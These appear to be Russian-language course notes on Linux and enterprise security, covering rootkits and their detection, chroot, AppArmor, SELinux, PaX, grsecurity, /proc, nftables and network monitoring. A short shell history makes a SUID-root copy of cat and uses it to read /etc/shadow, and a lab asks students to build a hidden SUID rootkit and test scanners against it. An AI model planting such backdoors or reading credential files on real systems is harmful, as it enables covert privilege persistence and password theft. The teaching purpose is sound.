Термин Rootkit исторически пришёл из мира UNIX, и под этим термином понимается набор утилит или специальный модуль ядра, которые злоумышленник устанавливает на взломанной им компьютерной системе сразу после получения прав суперпользователя. Этот набор, как правило, включает в себя разнообразные утилиты для «заметания следов» вторжения в систему, делает незаметными снифферы, сканеры, кейлоггеры, троянские программы, замещающие основные утилиты UNIX (в случае не ядерного руткита). Rootkit позволяет взломщику закрепиться во взломанной системе и скрыть следы своей деятельности путём скрытия файлов, процессов, а также самого присутствия руткита в системе.

В систему руткит может быть установлен различными способами: загрузка посредством эксплойта, после получения шелл-доступа (в таком случае, может использоваться средство типа wget или исходный FTP-клиент для загрузки руткита с удаленного устройства), в исходном коде или ресурсах программного продукта. 

- В Microsoft Windows
	- Захват таблиц вызовов
	- Перехват модификацией кода функции
	- DKOM (Direct Kernel Object Manipulation, прямая манипуляция объектами ядра)
	- Драйверы
- В UNIX и Linux
    - Подмена основных системных утилит 
    - В виде модуля ядра и основанные на патчинге VFS или перехвате таблицы системных вызовов
    - Модификация физической памяти ядра.

Поиск:

- Сигнатурный поиск. Применяется еще со времен первых антивирусов и представляет собой поиск в проверяемом файле уникальной цепочки байтов (сигнатуры), присущей вредоносной программе.
- Эвристический или поведенческий анализатор. Эта технология основывается на поиске отклонений в настройках системы, конфигурационных файлах Linux или реестре Windows, подозрительном поведении процессов и модулей и так далее.
- Контроль целостности. Этот тип поиcка основан на сравнении контрольной суммы (MD5 и тому подобное) или цифровой пoдписи разнообразных системных файлов с базой, содержащей контрольную сумму оpигинальных файлов. В случае несовпадения программа делает вывод, что файл был модифицирован или вовсе заменен.

## Лабораторные работы

1. Cоздать простейший руткит - разместить в "секретном" месте набор шелл-команд с SUID на root.
2. С его помощью создать фэйк-сервер http (код выше).
3. Попытаться обнаружить его различными типовыми сканерами.
4. Сформировать отчет на git.

## Дополнения

    tempname = md5sum(id)
    202cb962ac59075b964b07152d234b70.jpeg
    
    Если вероятность Х 1/1000 и события происходят с частотой 1Гц 
    то надо 1000 сек для наступления некоторого события Х --- неверно!
    
    На самом деле не столь важно, насколько крепок пароль
    Важно чтоб у него (с солью) не было коллизий с простым.
    
    
    x = network_read(connection);
    y = get_data(x);
    z = query(y);
    respond(z);
    
    =============================================================
    |12|--- x ----|13|----- y ------|....
        xxxxxxxxxxxxx
        <-----------+

                1234567812345678
    chmod 666 > 110110110???????
    111111111    rwxrwxrwx
                    user группа user группа
    у процесса есть UID    GID  EUID  EGIT
    
    
    2011  ls -l /usr/bin/passwd
    2012  cat /etc/shadow
    2013  which cat
    2014  cp /bin/cat /tmp/
    2015  /tmp/cat /etc/shadow
    2016  sudo -i
    499  chown root:root /tmp/cat 
    500  chmod +s /tmp/cat 
    2017  ls -l /tmp/cat 
    2018  /tmp/cat /etc/shadow
        

# Модуль 3 Защита систем предприятия на уровне ОС
## Обзор технологий, повышающих безопасность систем на уровне ОС
### Инструмент Chroot 

chroot — операция изменения корневого каталога в Unix-подобных операционных системах. Программа, запущенная с изменённым корневым каталогом, будет иметь доступ только к файлам, содержащимся в данном каталоге. Поэтому, если нужно обеспечить программе доступ к другим каталогам или файловым системам (например, /proc), нужно заранее примонтировать в целевом каталоге необходимые каталоги или устройства.

Термин chroot может относиться или к концепции изменений корневого каталога, или к системному вызову chroot(2), или к программе chroot(8), что обычно понятно из контекста.

Изменение корневого каталога производится при помощи системного вызова chroot(2). Изменение корневого каталога затрагивает только текущий процесс (то есть процесс, сделавший системный вызов chroot(2)) и всех его потомков. Если требуется запустить некоторую программу с изменённым корневым каталогом, но в данной программе не предусмотрено выполнение вызова chroot(2), используют программу chroot(8). Эта программа принимает в качестве параметров новый корневой каталог и путь к программе. Она сначала сама выполняет вызов chroot(2) для изменения собственного корневого каталога на указанный, а затем запускает программу по заданному пути. Так как изменённый корневой каталог наследуется потомками процессов, программа запускается с изменённым корневым каталогом.

### Инструмент AppArmor 

AppArmor — программный инструмент упреждающей защиты, основанный на политиках безопасности (известных также как профили), которые определяют, к каким системным ресурсам и с какими привилегиями может получить доступ то или иное приложение. В AppArmor включён набор стандартных профилей, а также инструменты статического анализа и инструменты, основанные на обучении, позволяющие ускорить и упростить построение новых профилей.

Изначально программа была разработана компанией Immunix. После её приобретения компанией Novell инструмент был открыт под лицензией GNU GPL и включён в openSUSE. Позже адаптирован для Ubuntu.

В конце лета 2008 года Рассел Кокер, один из авторов SELinux, высказал мнение, что AppArmor бесперспективен, объяснив это тем, что даже в openSUSE появляется поддержка аналогичного и более популярного решения — SELinux. Однако вскоре разработку AppArmor продолжил сотрудник Canonical, а в июле 2010 года было объявлено о том, что AppArmor войдет в состав Linux-ядра версии 2.6.36. В мае 2013 года поддержка инструмента была внедрена в Debian 7 Wheezy.

### Инструмент SELinux 

SELinux (англ. Security-Enhanced Linux — Linux с улучшенной безопасностью) — реализация системы принудительного контроля доступа, которая может работать параллельно с классической избирательной системой контроля доступа.

Оставаясь в рамках избирательной системы контроля доступа, операционная система имеет фундаментальное ограничение в плане разделения доступа процессов к ресурсам — доступ к ресурсам основывается на правах доступа пользователя. Это классические права rwx на трех уровнях — владелец, группа-владелец и остальные.

В SELinux права доступа определяются самой системой при помощи специально определенных политик. Политики работают на уровне системных вызовов и применяются самим ядром (но можно реализовать и на уровне приложения). SELinux действует после классической модели безопасности Linux. Иными словами, через SELinux нельзя разрешить то, что запрещено через права доступа пользователей или групп. Политики описываются при помощи специального гибкого языка описания правил доступа. В большинстве случаев правила SELinux «прозрачны» для приложений, и не требуется никакой их модификации. В состав некоторых дистрибутивов входят готовые политики, в которых права могут определяться на основе совпадения типов процесса (субъекта) и файла (объекта) — это основной механизм SELinux. Две других формы контроля доступа — доступ на основе ролей и на основе многоуровневой системы безопасности.

### Инструмент Docker 

Docker — программное обеспечение для автоматизации развёртывания и управления приложениями в средах с поддержкой контейнеризации. Позволяет «упаковать» приложение со всем его окружением и зависимостями в контейнер, который может быть перенесён на любую Linux-систему с поддержкой cgroups в ядре, а также предоставляет среду по управлению контейнерами. Изначально использовал возможности LXC, с 2015 года применял собственную библиотеку, абстрагирующую виртуализационные возможности ядра Linux — libcontainer. С появлением Open Container Initiative начался переход от монолитной к модульной архитектуре.

Разрабатывается и поддерживается одноимённой компанией-стартапом, распространяется в двух редакциях — общественной (Community Edition) по лицензии Apache 2.0 и для организаций (Enterprise Edition) по проприетарной лицензии . Написан на языке Go.

Проект начат как внутренняя собственническая разработка компании dotCloud, основанной Соломоном Хайксом (Solomon Hykes) в 2008 году с целью построения публичной PaaS-платформы с поддержкой различных языков программирования. Наряду с Хайксом в первоначальной разработке значительное участие приняли инженеры dotCloud Андреа Лудзарди (Andrea Luzzardi) и Франсуа-Ксавье Бурле (François-Xavier Bourlet).

### Инструмент PaX 

В компьютерной безопасности PaX (произн. «Пакс») — это патч к ядру Linux, который предоставляет возможность настроить минимальные права доступа приложений к страницам памяти. Таким образом обеспечивается достаточно тонкая настройка, с помощью которой программам разрешается выполнять только те действия, которые необходимы, исходя из предоставляемой ими функциональности, но не более того. PaX был впервые выпущен в 2000 году. С 2014 года распространяется только в составе проекта grsecurity, который стал платным с апреля 2017 года .

PaX помечает сегмент данных программ в памяти как недоступный для исполнения (так как он по определению не может содержать программных директив, которые необходимо выполнить), а сегмент кода — как не перезаписываемый, и, в придачу, при каждом запросе выделяет память программе из произвольных мест (рандомизация страниц памяти). Любая программа, которая пытается передать управление коду, находящемуся в недоступной для исполнения памяти, принудительно завершается.

Эта методика эффективна против применения различных эксплоитов, использующих, например, уязвимость, основанную на переполнении буфера памяти. Такая защита изначально полностью предотвращает прямое выполнение кода из памяти, и одновременно, с прикладной точки зрения, делает, так называемые, return-to-libc (ret2libc) атаки сложными для выполнения (они становятся выполняемыми скорее наудачу, без заранее предсказуемого результата). Однако, вместе с тем, PaX не предотвращает ошибки, приводящие к возможности переопределения переменных и значений указателей.

### Инструмент grsecurity 

Grsecurity — проприетарный набор модификаций (патч) для ядра Linux, который включает в себя некоторые улучшения, связанные с безопасностью, включая защиту памяти ядра и пользовательских процессов, принудительный контроль доступа, рандомизацию расположения объектов в памяти, ограничения доступа к файлам в /proc, ограничения доступа к системным интерфейсам внутри chroot() jail, ограничения на использование серверных и клиентских сетевых сокетов, а также дополнительные возможности аудита активности процессов и некоторые другие функции. Типичной областью применения являются системы, которые могут принимать сетевые подключения из потенциально опасных источников: такие как серверы различных сетевых служб (например, веб-серверы) или серверы, предоставляющие своим пользователям shell-доступ. Патч grsecurity с 2001 года выпускался на условиях лицензии GPL версии 2, и включает в себя набор патчей PaX. С 26 апреля 2017 года исходные коды grsecurity и связанных патчей больше не доступны для скачивания, а их распространение производится только на платной основе. Создатель и ведущий разработчик grsecurity — Brad Spengler, также известный под псевдонимом spender. 

Изначально патч grsecurity являлся общедоступным и свободным ПО. В 2015 году, после споров о некорректном использовании торговой марки grsecurity автор патча решил прекратить свободное (неограниченное) распространение кодов стабильной версии патча для всех желающих. Тестовые версии grsecurity  в виде единого патча без разбивки на серии на тот момент оставались общедоступными.

С 26 апреля 2017 года был закрыт свободный доступ к тестовым версиям патча grsecurity (а также PaX), вероятно из-за конфликта с KSPP  или Wind River.  Последней общедоступной версией стал тестовый патч для ядра Linux 4.9 версии. Более новые версии становятся доступными лишь для коммерческих подписчиков компании "Open Source Security Inc" (разработчик патча с 2008 года, штат Пенсильвания), в рамках отдельного соглашения о предоставлении услуг.

## Файловая система /proc

[Программирование в Linux. Файловая система /proc](https://clck.ru/RPD9f)

Файловая система `/proc` является особой для GNU/Linux. Это виртуальная файловая система и она не занимает места на вашем диске. Это очень удобный способ получить информацию о системе, тем более, что большинство файлов в этом каталоге читаемы для человека (ну хорошо, с небольшой помощью). Большинство программ реально получают информацию из файлов в `/proc`, форматируют их своим способом, а затем отображают. Так делают все программы, которые отображают информацию о процессах, и некоторые из них мы уже видели (top, ps и сотоварищи). `/proc` это также хороший источник информации о ваших аппаратных средствах, и таким же образом некоторые программы являются только интерфейсами к информации, содержащейся в `/proc`.

Существует также специальный подкаталог `/proc/sys`. Он позволяет изменять некоторые параметры ядра в реальном режиме времени или отображать их.

### Информация о Процессах

Если вы пролистаете содержимое каталога `/proc`, вы увидите много каталогов, названиями которых являются номера. Эти каталоги содержат информацию о все запущенных в данный момент процессах в системе:

	$ ls -d /proc/[0-9]*
	/proc/1/    /proc/302/  /proc/451/  /proc/496/  /proc/556/  /proc/633/
	/proc/127/  /proc/317/  /proc/452/  /proc/497/  /proc/557/  /proc/718/
	/proc/2/    /proc/339/  /proc/453/  /proc/5/    /proc/558/  /proc/755/
	/proc/250/  /proc/385/  /proc/454/  /proc/501/  /proc/559/  /proc/760/
	/proc/260/  /proc/4/    /proc/455/  /proc/504/  /proc/565/  /proc/761/
	/proc/275/  /proc/402/  /proc/463/  /proc/505/  /proc/569/  /proc/769/
	/proc/290/  /proc/433/  /proc/487/  /proc/509/  /proc/594/  /proc/774/
	/proc/3/    /proc/450/  /proc/491/  /proc/554/  /proc/595/

Имейте в виду, что как пользователь, вы можете увидеть информацию только о своих собственных процессах. Для других пользователей вы такой информации не получите. Поэтому перейдем в root и посмотрим какая информация доступна для процесса 127:

	$ su
	Password:
	# cd /proc/127
	# ls -l
	total 0
	-r- -r- -r- -        1 root     root            0 Dec 14 19:53 cmdline
	lrwx- - - - - -      1 root     root            0 Dec 14 19:53 cwd -> //
	-r- - - - - - - -    1 root     root            0 Dec 14 19:53 environ
	lrwx- - - - - -      1 root     root            0 Dec 14 19:53 exe -> /usr/sbin/apmd*
	dr-x- - - - - -      2 root     root            0 Dec 14 19:53 fd/
	pr- -r- -r- -        1 root     root            0 Dec 14 19:53 maps|
	-rw- - - - - - -     1 root     root            0 Dec 14 19:53 mem
	lrwx- - - - - -      1 root     root            0 Dec 14 19:53 root -> //
	-r- -r- -r- -        1 root     root            0 Dec 14 19:53 stat
	-r- -r- -r- -        1 root     root            0 Dec 14 19:53 statm
	-r- -r- -r- -        1 root     root            0 Dec 14 19:53 status
	#

Каждый каталог содержит одинаковые входы. Вот краткое описание некоторых из них:

- cmdline: этот (псевдо-) файл содержит целую командную строку, использованную для вызова процесса. Он не отформатирован: нет пробелов между программой и ее аргументами, и нет разделителя в конце строки. Чтобы посмотреть его, вы можете использовать: perl -ple 's,\00, ,g' cmdline.

- cwd: это символическая ссылка на текущий рабочий каталог (следует из имени) процесса.

- environ Этот файл содержит все переменные окружения, определенные для процесса, в форме VARIABLE=value. Подобно cmdline, вывод не форматирован вообще: нет разделителей между различными переменными, и нет разделителя в конце. Единственное решение как его посмотреть: perl -pl -e 's,\00,\n,g' environ.

- exe: это символическая ссылка на соответствующий запущенному процессу выполняемый файл.

- fd: этот подкаталог содержит список файловых дескрипторов, открытых процессом в данный момент. Смотрите ниже.

- maps: когда вы выводите содержимое именованной трубы (с помощью cat, например), вы можете видеть части адресного пространства процесса, которые в текущий момент отображаются в файле. Слева направо это поля: адресное пространство, связанное с этим отображением, права отображения, смещение с начала файла, где начинаются отображения, страший и младший номер (в шестнадцатиричном формате) устройства, где хранится файл отображения, номер узла файла и, последнее, имя файла. Когда устройство обозначено как 0 и нет номера узла и имени файла - это анонимное отображение.

- root: Это символическая ссылка на корневой каталог, используемый процессом. Обычно это будет /.

- status: этот файл содержит различную информацию о процессе: название выполняемой программы, его текущее состояние, его PID и PPID, его реальные и эффективные UID и GID, использование им памяти, и другое.

Если мы выведем список файлов каталога fd для нашего процесса 127, мы получим следующее:

	# ls -l fd
	total 0
	lrwx- - - - - -    1 root     root           64 Dec 16 22:04 0 -> /dev/console
	l-wx- - - - - -    1 root     root           64 Dec 16 22:04 1 -> pipe:[128]
	l-wx- - - - - -    1 root     root           64 Dec 16 22:04 2 -> pipe:[129]
	l-wx- - - - - -    1 root     root           64 Dec 16 22:04 21 -> pipe:[130]
	lrwx- - - - - -    1 root     root           64 Dec 16 22:04 3 -> /dev/apm_bios
	lr-x- - - - - -    1 root     root           64 Dec 16 22:04 7 -> pipe:[130]
	lrwx- - - - - -    1 root     root           64 Dec 16 22:04 9 ->
	/dev/console
	#

Фактически, это список файловых дескрипторов, открытых процессом. Каждый открытый дескриптор обозначен символической ссылкой, именем каждого номера дескриптора, и указателем на файл, открытый этим дескриптором. Обратите также внимание на права symlinks: это единственное место, где они имеют смысл, поскольку они представляют права, с которыми файл, соответствующий дескриптору, был открыт. 

### Информация об aппаратном oбеспечении

Кроме каталогов, связанных с различными процессами, `/proc` также содержит несметное количество информации об аппаратном обеспечении вашей машины. Список файлов каталога `/proc` показывает следующее:

	$ ls -d [a-z]*
	apm      dma          interrupts  loadavg  mounts      rtc       swaps
	bus/     fb           ioports     locks    mtrr        scsi/     sys/
	cmdline  filesystems  kcore       meminfo  net/        self/     tty/
	cpuinfo  fs/          kmsg        misc     partitions  slabinfo  uptime
	devices  ide/         ksyms       modules  pci         stat      version
	$

Если мы посмотрим, например, содержимое `/proc/interrupts`, мы можем увидеть, что тут есть список прерываний, используемых системой на данный момент, а также периферийных устройств, которые держат их. Точно так же, каталог ioports содержит список адресных интервалов ввода-вывода, занятых в настоящее время , и наконец, dma делает то же самое для каналов DMA. Поэтому, чтобы найти конфликт, нужно смотреть содержание этих трех файлов:

	$ cat interrupts
	           CPU0
	  0:     127648          XT-PIC  timer
	  1:       5191          XT-PIC  keyboard
	  2:          0          XT-PIC  cascade
	  5:       1402          XT-PIC  xirc2ps_cs
	  8:          1          XT-PIC  rtc
	 10:          0          XT-PIC  ESS Solo1
	 12:       2631          XT-PIC  PS/2 Mouse
	 13:          1          XT-PIC  fpu
	 14:      73434          XT-PIC  ide0
	 15:      80234          XT-PIC  ide1
	NMI:          0

	$ cat ioports
	0000-001f : dma1
	0020-003f : pic1
	0040-005f : timer
	0060-006f : keyboard
	0070-007f : rtc
	0080-008f : dma page reg
	00a0-00bf : pic2
	00c0-00df : dma2
	00f0-00ff : fpu
	0170-0177 : ide1
	01f0-01f7 : ide0
	0300-030f : xirc2ps_cs
	0376-0376 : ide1
	03c0-03df : vga+
	03f6-03f6 : ide0
	03f8-03ff : serial(auto)
	1050-1057 : ide0
	1058-105f : ide1
	1080-108f : ESS Solo1
	10c0-10cf : ESS Solo1
	10d4-10df : ESS Solo1
	10ec-10ef : ESS Solo1

	$ cat dma
	 4: cascade

Или проще, использовать команду lsdev, которая получает информацию из этих трех файлов и сортирует ее по периферийным устройствам:

	$ lsdev
	Device            DMA   IRQ  I/O Ports
	- - ----------------------------------------------
	cascade             4     2
	dma                          0080-008f
	dma1                         0000-001f
	dma2                         00c0-00df
	ESS                          1080-108f 10c0-10cf 10d4-10df 10ec-10ef
	fpu                      13  00f0-00ff
	ide0                     14  01f0-01f7 03f6-03f6 1050-1057
	ide1                     15  0170-0177 0376-0376 1058-105f
	keyboard                  1  0060-006f
	Mouse                    12
	pic1                         0020-003f
	pic2                         00a0-00bf
	rtc                       8  0070-007f
	serial                       03f8-03ff
	Solo1                    10
	timer                     0  0040-005f
	vga+                         03c0-03df
	xirc2ps_cs                5  0300-030f

Полная распечатка файлов была бы слишком длинной, тем не менее приведем описание некоторых из них:

- cpuinfo: этот файл содержит, соответственно своему названию, информацию о процессоре(рах) в вашей машине.

- modules: этот файл содержит список модулей, которые используются ядром в данный момент, а также процент использования для каждого модуля. Фактически, это та же самая информация, которую предоставляет команда lsmod.

- meminfo: этот файл предоставляет информацию о загрузке памяти на момент запроса. Более аккуратно форматированный вид этой же информации можно получить командой free.

- apm: если у вас портативный компьютер, то вывод этого файла предоставит вам информацию о состоянии батарей. Вы сможете увидеть куда подключен AC, текущую загрузку батарей, и, если APM BIOS вашего ноутбука поддерживает это (к сожалению это не всегда так), то вы сможете увидеть еще и сколько времени в минутах батареи смогут проработать. Файл не очень читаем, поэтому лучше использовать вместо него команду apm, которая предоставит информацию в "человекочитаемом" виде.

- bus: этот подкаталог предоставит вам информацию о всех периферийных устройствах, найденных на различных шинах вашего компьютера. Информация внутри него редко вообще читаема, и главным образом с ней имеют дело и умеют форматировать внешние утилиты, такие как: lspcidrake, lspnp, и др..

## Подкаталог /proc/sys

Задача этого каталога - сообщать о различных параметрах ядра и позволять замену некоторых из них в реальном режиме времени. В противоположность всем другим файлам каталога /proc, некоторые файлы этого каталога могут быть записаны, но только под root

Список каталогов и файлов был бы слишком большим, тем более что их наличие преимущественно зависит от конкретно вашей системы, а большинство файлов будет использоваться только для очень специализированных приложений. Тем не менее, приведем три обычных случая использования этого подкаталога:

Разрешение роутинга: Даже если заданное по умолчанию ядро от Mandrake Linux может роутить, вы должны явно позволить ему это делать. Для этого нужно под root напечатать следующее:

    # echo 1 > /proc/sys/net/ipv4/ip_forward

Замените 1 на 0, если вы хотите запретить роутинг.

Предотвращение подмены IP: имитация IP состоит в том, чтобы заставить интерфейс поверить в то, что пакет, пришедший из мира, является его собственным, вышедшим из него пакетом. Эта техника очень часто используется кракерами [23], но вы можете заставить ядро предотвращать такие вторжения. Вам только нужно написать:

    # echo 1 > /proc/sys/net/ipv4/conf/all/rp_filter

и все типы таких атак становятся невозможными.

Увеличение размера таблицы открытых файлов и таблицы inode: Размер таблицы открытых файлов и таблицы inode является динамическим под GNU/Linux. Значений по умолчанию обычно достаточно, но они могут быть недостаточными если ваша машина - нагруженный сервер (например, сервер баз данных). Реально, первым препятствием может стать тот факт, что процессы больше не смогут открывать файлы по той причине, что таблица полна, поэтому вам нужно увеличить ее размер. В то же время вам нужно будет увеличить и размер таблицы inode. Вот две строчки, которые решают эту проблему:

    $ echo 8192 > /proc/sys/fs/file-max
    $ echo 16384 > /proc/sys/fs/inode-max

Чтобы это выполнялось при каждой загрузке системы, вы можете добавить все эти строки в /etc/rc.d/rc.local и таким образом избежать их набора каждый раз заново, но есть и другое решение, состоящее в том, чтобы заполнить файл /etc/sysctl.conf.

## Сравнение iptables и nftables

[iptables против nftables: в чем разница?](https://clck.ru/RPDX3)

Nftables разработан в Netfilter - той же организации, которая в настоящее время поддерживает IPTables. Он был создан для решения проблем с настройкой iptables, а именно масштабируемости и производительности. Основная идея - отказ от различных систем фильтров для ipv6 и ipv4 - инфраструктура iptables стала немного запутанной с iptables, ip6tables, arptables и ebtables, которые предоставляют разные, но схожие функции.

Nftables становится рекомендуемым брандмауэром, и администраторы Linux должны обновить свои инструменты. Сейчас самое время изучить nftables и обновить существующую конфигурацию iptables.

### Цепочки и правила в nftables

В iptables есть три цепочки по умолчанию: ввод, вывод и пересылка. Эти три «цепочки» (и другие цепочки, если они у вас настроены) содержат «правила», и iptables работает путем сопоставления сетевого трафика со списком правил в цепочке. Если исследуемый трафик не соответствует ни одному правилу, в трафике будет использоваться политика цепочки по умолчанию (т. е. ACCEPT, DROP).

Nftables работает аналогично этому, с «цепями» и «правилами». Однако он не начинается с каких-либо базовых цепей, что делает настройку немного более гибкой.

### Установка nftables в Linux

Nftables доступен во всех основных дистрибутивах Linux, и вы можете легко установить его, используя менеджер пакетов ваших дистрибутивов.

В дистрибутиве на основе Ubuntu или Debian вы можете использовать эту команду:

	sudo apt install nftables

Чтобы убедиться, что nftables запускается автоматически при перезагрузке системы, выполните:

	sudo systemctl enable nftables.service

 
### Синтаксическая разница между iptables и nftables

Nftables имеет другой и гораздо более простой синтаксис, чем iptables, отнако nftables по-прежнему принимает старый синтаксис.
Есть и утилита iptables-translate, которая будет принимать команды iptables и преобразовывать их в эквивалент nftables. Это простой способ увидеть разницу между двумя синтаксисами.

Установите iptables-translate в дистрибутиве на основе Ubuntu и Debian с помощью этой команды:

	sudo apt install iptables-nftables-compat

После установки вы можете передать синтаксис iptables команде iptables-translate, и она вернет эквивалентную команду nftables.

Давайте рассмотрим несколько примеров, чтобы вы могли увидеть, как эти команды отличаются друг от друга.

#### Блокировка входящих соединений

Эта команда заблокирует входящие соединения с IP-адреса 192.168.2.1:

	$ iptables-translate -A INPUT -s 192.168.2.1 -j DROP

	nft add rule ip filter INPUT ip saddr 192.168.2.1 counter drop

#### Разрешение входящих соединений SSH

Давайте рассмотрим еще несколько примеров – обычные вещи, которые вы обычно вводите в iptables при усилении защиты сервера Linux.

	$ iptables-translate -A INPUT -p tcp --dport 22 -m conntrack --ctstate NEW,ESTABLISHED -j ACCEPT
	nft add rule ip filter INPUT tcp dport 22 ct state new,established counter accept
 
Разрешить входящие соединения SSH из определенного диапазона IP

Если вы хотите разрешить входящие SSH-соединения с 192.168.1.0/24:

	$ iptables-translate -A INPUT -p tcp -s 192.168.1.0/24 --dport 22 -m conntrack --ctstate NEW,ESTABLISHED -j ACCEPT
	nft add rule ip filter INPUT ip saddr 192.168.1.0/24 tcp dport 22 ct state new,established counter accept

Разрешить подключения MySQL к сетевому интерфейсу eth0

	$ iptables-translate -A INPUT -i eth0 -p tcp --dport 3306 -m conntrack --ctstate NEW,ESTABLISHED -j ACCEPT
	nft add rule ip filter INPUT iifname eth0 tcp dport 3306 ct state new,established counter accept

Чтобы разрешить трафик определенного типа f, вот синтаксис для обеих команд:

	$ iptables-translate -A INPUT -p tcp -m multiport --dports 80,443 -m conntrack --ctstate NEW,ESTABLISHED -j ACCEPT
	nft add rule ip filter INPUT ip protocol tcp tcp dport { 80,443} ct state new,established counter accept

Как видно из этих примеров, синтаксис все еще очень похож на iptables, но команды немного более интуитивно понятны.

### Журналирование с помощью nftables

Опция «counter», присутствующая в приведенных выше примерах команды nft, указывает nftables подсчитывать количество раз, когда к правилу обращаются, как это делают iptables по умолчанию.
В nftables они являются необязательными и должны быть указаны.

	nft add rule ip filter INPUT ip saddr 192.168.2.1 counter accept

Nftables имеет встроенные опции для экспорта вашей конфигурации. В настоящее время он поддерживает XML и JSON.

	nft export xml

## Лабораторные работы

1) Определить файлы, открытые процессом, используя lsof и proc.

Cравнить удобство использования обоих способов.

2) Поместить fakehttp сервер (или иное приложение) в контейнер Docker

# Модуль 4 Защита сервисов предприятия

## Методы защиты сетевых сервисов от вредоносных действий

[Как взять сетевую ](https://clck.ru/RRT5K)[инфраструктуру под ](https://clck.ru/RRT6e)[свой контроль](https://clck.ru/RRT7y)

Любая корпоративная компьютерная сеть, даже небольшая, требует постоянного внимания к себе. Как бы хорошо она ни была настроена, насколько бы надежное ПО не было установлено на серверах и клиентских компьютерах – нельзя полагаться лишь на внимание системного администратора; необходимы автоматические и непрерывно действующие средства контроля состояния сети и своевременного оповещения о возможных проблемах.

Даже случайные сбои аппаратного или программного обеспечения могут привести к весьма неприятным последствиям. Существенное замедления функционирования сетевых сервисов и служб – еще наименее неприятное из них (хотя в худших случаях и может оставаться незамеченным в течение длительных промежутков времени). Гораздо хуже, когда критично важные службы или приложения полностью прекращают функционирование, и это остается незамеченным в течение длительного времени. Типы же «критичных» служб могут быть весьма разнообразны (и, соответственно, требовать различных методов мониторинга). От корректной работы веб-серверов и серверов БД может зависеть работоспособность внутрикорпоративных приложений и важных внешних сервисов для клиентов; сбои и нарушения работы маршрутизаторов могут нарушать связь между различными частями корпорации и ее филиалами; серверы внутренней почты и сетевых мессенджеров, автоматических обновлений и резервного копирования, принт-серверы – любые из этих элементов могут страдать от программных и аппаратных сбоев.

И все же, непреднамеренные отказы оборудования и ПО – в большинстве случаев, разовые и легко исправляемые ситуации. Куда больше вреда может принести сознательные вредоносные действия изнутри или извне сети. Злоумышленники, обнаружившие «дыру» в безопасности системы, могут произвести множество деструктивных действий – начиная от простого вывода из строя серверов (что, как правило, легко обнаруживается и исправляется), и заканчивая заражением вирусами (последствия непредсказуемы) и кражей конфиденциальных данных (последствия плачевны).

Практически все из описанных выше сценариев (и множество аналогичных), в конечном итоге, ведут к серьезным материальным убыткам: нарушению схем взаимодействия между сотрудниками, безвозвратной утере данных, потере доверия клиентов, разглашению секретных сведений и т.п. Поскольку полностью исключить возможность отказа или некорректной работы техники невозможно, решение заключается в том, чтобы обнаруживать проблемы на наиболее ранних стадиях, и получать о них наиболее подробную информацию. Для этого, как правило, применяется различное ПО мониторинга и контроля сети, которое способно как своевременно оповещать технических специалистов об обнаруженной проблеме, так и накапливать статистические данные о стабильности и других параметрах работы серверов, сервисов и служб, доступные для подробного анализа.

Ниже мы рассматриваем базовые методы мониторинга работы сети и контроля ее защищенности.

### Методы мониторинга состояния сети

Выбор способов и объектов мониторинга сети зависит от множества факторов – конфигурации сети, действующих в ней сервисов и служб, конфигурации серверов и установленного на них ПО, возможностей ПО, используемого для мониторинга и т.п. На самом общем уровне можно говорить о таких элементах как:

- проверка физической доступности оборудования;
- проверка состояния (работоспособности) служб и сервисов, запущенных в сети;
- детальная проверка не критичных, но важных параметров функционирования сети: производительности, загрузки и т.п.;
- проверка параметров, специфичных для сервисов и служб данного конкретного окружения (наличие некоторых значений в таблицах БД, содержимое лог-файлов).

Начальный уровень любой проверки – тестирование физической доступности оборудования (которая может быть нарушена в результате отключения самого оборудования либо отказе каналов связи). Как минимум, это означает проверку доступности по ICMP-протоколу (ping), причем желательно проверять не только факт наличия ответа, но и время прохождения сигнала, и количество потерянных запросов: аномальные значения этих величин, как правило, сигнализируют о серьезных проблемах в конфигурации сети. Некоторые из этих проблем легко отследить при помощи трассировки маршрута (traceroute) – ее также можно автоматизировать при наличии «эталонных маршрутов».

Следующий этап – проверка принципиальной работоспособности критичных служб. Как правило, это означает TCP-подключение к соответствующему порту сервера, на котором должна быть запущена служба, и, возможно, выполнение тестового запроса (например, аутентификации на почтовом сервере по протоколу SMTP или POP или запрос тестовой страницы от веб-сервера).

В большинстве случаев, желательно проверять не только факт ответа службы/сервиса, но и задержки – впрочем, то относится уже к следующей по важности задаче: проверке нагрузки. Помимо времени отклика устройств и служб для различных типов серверов существуют другие принципиально важные проверки: память и загруженность процессора (веб-сервер, сервер БД), место на диске (файл-сервер), и более специфические – например, статус принтеров у сервера печати.

Способы проверки этих величин варьируются, но один из основных, доступных почти всегда – проверка по SNMP-протоколу. Помимо этого, можно использовать специфические средства, предоставляемые ОС проверяемого оборудования: к примеру, современные серверные версии ОС Windows на системном уровне предоставляют так называемые счетчики производительности (performance counters), из которых можно «считать» довольно подробную информацию о состоянии компьютера.

Наконец, многие окружения требуют специфических проверок – запросов к БД, контролирующих работу некоего приложения; проверка файлов отчетов или значений настроек; отслеживание наличия некоторого файла (например, создаваемого при «падении» системы).
Контроль безопасности сети

Безопасность компьютерной сети (в смысле защищенности ее от вредоносных действий) обеспечивается двумя методами: аудитом и контролем. Аудит безопасности – проверка настройки сети (открытых портов, доступности «внутренних» приложений извне, надежности аутентификации пользователей); методы и средства аудита выходят за рамки данной статьи.

Сущность контроля безопасности состоит в выявлении аномальных событий в функционировании сети. Предполагается, что базовые методы обеспечения и контроля безопасности (аутентификация, фильтрация запросов по адресу клиента, защита от перегрузок и т.п.) встроена во все серверное ПО. Однако, во-первых, не всегда можно доверять этому предположению; во-вторых, не всегда такой защиты достаточно. Для полноценной уверенности в безопасности сети в большинстве случаев необходимо использовать дополнительные, внешние средства. При этом проверяют, как правило, следующие параметры:

- нагрузку на серверное ПО и «железо»: аномально высокие уровни загрузки процессора, внезапное сокращение свободного места на дисках, резкое увеличение сетевого трафика зачастую являются признаками сетевой атаки;
- журналы и отчеты на наличие ошибок: отдельные сообщения об ошибках в лог-файлах программ-серверов или журнале событий серверной ОС допустимы, но накопление и анализ таких сообщений помогает выявить неожиданно частые или систематические отказы;
- состояние потенциально уязвимых объектов – например, тех, «защищенность» которых тяжело проконтролировать напрямую (ненадежное стороннее ПО, изменившаяся/непроверенная конфигурация сети): нежелательные изменения прав доступа к некоторому ресурсу или содержимого файла может свидетельствовать о проникновении «врага».

